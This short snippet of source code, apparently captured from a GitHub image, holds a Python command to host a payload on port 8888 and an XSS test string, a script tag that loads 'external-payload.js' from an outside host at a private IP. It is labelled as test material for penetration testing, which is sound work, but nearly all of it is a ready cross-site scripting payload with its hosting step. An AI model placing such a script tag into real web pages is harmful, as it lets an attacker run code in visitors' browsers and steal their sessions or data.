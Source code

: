 // Python command to quickly host payload for tests
python -m SimpleHTTPServer 8888

// XSS Test String
<script src="http://192.168.192.4:8888/external-payload.js"></script>
